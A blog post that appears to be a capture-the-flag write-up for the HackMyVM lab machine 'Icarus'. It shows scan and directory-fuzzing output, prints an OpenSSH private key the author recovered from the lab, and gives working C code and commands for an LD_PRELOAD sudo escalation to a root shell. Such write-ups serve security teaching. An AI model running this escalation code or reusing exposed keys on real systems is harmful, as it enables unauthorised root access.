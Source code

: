 ```yaml
---
layout: post
author: maxin
title:  "Icarus"
date:   2021-12-31 12:53:19 AM -03
category: HackMyVM
tags: Writeup
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Icarus)

# Enumeration

{% highlight bash %}
# Nmap 7.92 scan initiated Wed Dec 29 19:10:34 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.23
Nmap scan report for 192.168.0.23
Host is up (0.020s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b6:65:56:40:8d:a8:57:b9:15:1e:0e:1f:a5:d0:52:3a (RSA)
|   256 79:65:cb:2a:06:82:13:d3:76:6b:1c:55:cd:8f:07:b7 (ECDSA)
|_  256 b1:34:e5:21:a0:28:30:c0:6c:01:0e:b0:7b:8f:b8:c6 (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: LOGIN
|_http-server-header: nginx/1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 29 19:10:41 2021 -- 1 IP address (1 host up) scanned in 7.62 seconds
{% endhighlight %}

# Port 80

We have a login page. Tried admin/admin and sqlmap, but found nothing 

## Fuzzing

{% highlight bash %}
gobuster dir -u $URL -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php,html,txt
{% endhighlight %}

{% highlight bash %}
/login.php            (Status: 302) [Size: 0] [--> index.php]
/xml                  (Status: 200) [Size: 1]
/a                    (Status: 200) [Size: 9641]
/index.php            (Status: 200) [Size: 407]
/xxx                  (Status: 200) [Size: 1]
/check.php            (Status: 200) [Size: 21]
------ SNIP ------
/xch                  (Status: 200) [Size: 1]
/xfm                  (Status: 200) [Size: 1]
{% endhighlight %}

Use curl to make a request to `/a` returns a lot of letters. We can use this to fuzzing 

{% highlight bash %}
curl "http://%IP/a" > url
{% endhighlight %}

{% highlight bash %}
for i in $(cat url); do curl "http://%IP/$i" >> curl.output; done
{% endhighlight %}

This for will loop every word and make a request, sending the output to a file

{% highlight bash %}
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA5xagxLiN5ObhPjNcs2I2ckcYrErKaunOwm40kTBnJ6vrbdRYHteS
afNWC6xFFzwO77+Kze229eK4ddZcwmU0IdN02Y8nYrxhl8lOc+e5T0Ajz+tRmLGoxJVPsS
TzKBERlWpKuJoGO/CEFLOv6PP6s79YYzZFpdUjaczY96jgICftzNZS+VkBXuLjKr79h4Tw
z7BK4V6FEQY0hwT8NFfNrF3x3VPe0UstdiUJFl4QV/qAPlHVhPd0YUEPr/95mryjuGi1xw
P7xVFrYyjLfPepqYHiS5LZxFewLWhhSjBOI0dzf/TwiNRnVGTZhB3GemgEIQRAam26jkZZ
3BxkrUVckQAAA8jfk7Jp35OyaQAAAAdzc2gtcnNhAAABAQDnFqDEuI3k5uE+M1yzYjZyRx
isSspq6c7CbjSRMGcnq+tt1Fge15Jp81YLrEUXPA7vv4rN7bb14rh11lzCZTQh03TZjydi
vGGXyU5z57lPQCPP61GYsajElU+xJPMoERGVakq4mgY78IQUs6/o8/qzv1hjNkWl1SNpzN
j3qOAgJ+3M1lL5WQFe4uMqvv2HhPDPsErhXoURBjSHBPw0V82sXfHdU97RSy12JQkWXhBX
+oA+UdWE93RhQQ+v/3mavKO4aLXHA/vFUWtjKMt896mpgeJLktnEV7AtaGFKME4jR3N/9P
CI1GdUZNmEHcZ6aAQhBEBqbbqORlncHGStRVyRAAAAAwEAAQAAAQEAvdjwMU1xfTlUmPY3
VUP9ePsBwSIck6ML8t35H8KFLKln3C4USxpNNe/so+BeTo1PtBVHYpDFu9IMOvrl7+qW3q
dLGyUpdUtQXhPK+RvJONt30GwB+BEUlpQYCW9SuHr1WCwfwPMA5iNdT2ijvx0ZvKwZYECJ
DYlB87yQDz7VCnRTiQGP2Mqiiwb7vPd/t386Y+cAz1cVl7BnHzWWJTUTkKCwijnvjYrD0o
tTQX4sGd6CrI44g+L8hnYuCZz+a0j6IyUfXJqj6l+/Z2Af7pJjbJD3P28xX7eY0h1Cec2l
/sb7qg2wy0qJNywJ35l8bZzZKjkXztPLOqMFQ6Fh0BqSdQAAAIEAlaH0ZEzJsZoR3QqcKl
xRKjVcuQCwcrKlNbJu2qRuUG812CLb9jJxJxacJPBV0NS832c+hZ3BiLtA5FwCiGlGq5m5
HS3odf3lLXDfIK+pur4OWKBNLDxKbqi4s4M05vR4gHkmotiH9eWlCNuqL46Ip5H1vFXeJM
pLRLN0gqOGuQQAAACBAPfffuhidAgUZH/yTvATKC5lcGrE7bkpOq+6XMMgxEQl0Hzry76i
rGXkhTY4QUtthYo4+g7jiDzKlbeaS7aN8RYq38GzQnZZQcSdvL1yB/N554gQvzJLvmKQbm
gLhMRcdDmifUelJYXib2Mjg/BLaRXaEzOomUKR2nyJH7VgU+xzAAAAgQDuqkBp44indqhx
wrzbfeLnzQqpZ/rMZXGcvJUttECRbLRfohUftFE5J0PKuT8w0dpacNCVgkT9A0Tc3xRfky
ECBQjeKLvdhcufJhQl0pdXDt1cpebE50LE4yHc8vR6FEjhR4P2AbGICJyRS7AX7UnrOWdU
IE3FeNP0r5UiSDq16wAAAA1pY2FydXNAaWNhcnVzAQIDBA==
-----END OPENSSH PRIVATE KEY-----
{% endhighlight %}

The output is a private key

# User

We can get the user of the private key using `ssh-keygen` 

{% highlight bash %}
ssh-keygen -y -f id_rsa

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnFqDEuI3k5uE+M1yzYjZyRxisSspq6c7CbjSRMGcnq+tt1Fge15Jp81YLrEUXPA7vv4rN7bb14rh11lzCZTQh03TZjydivGGXyU5z57lPQCPP61GYsajElU+xJPMoERGVakq4mgY78IQUs6/o8/qzv1hjNkWl1SNpzNj3qOAgJ+3M1lL5WQFe4uMqvv2HhPDPsErhXoURBjSHBPw0V82sXfHdU97RSy12JQkWXhBX+oA+UdWE93RhQQ+v/3mavKO4aLXHA/vFUWtjKMt896mpgeJLktnEV7AtaGFKME4jR3N/9PCI1GdUZNmEHcZ6aAQhBEBqbbqORlncHGStRVyR icarus@icarus
{% endhighlight %}

The user is icarus 

# Root

{% highlight bash %}
sudo -l

Matching Defaults entries for icarus on icarus:
    env_reset, mail_badpass, env_keep+=LD_PRELOAD, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User icarus may run the following commands on icarus:
    (ALL : ALL) NOPASSWD: /usr/bin/id
{% endhighlight %}

The real trick here it’s the `env_keep+=LD_PRELOAD`

[Linux Privilege Escalation using LD_Preload](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)

Follow this guide we can create a C script and make this script a shared library

Change to /tmp directory and create a C script

{% highlight bash %}
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
{% endhighlight %}

And run the following commands

{% highlight bash %}
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so id
{% endhighlight %}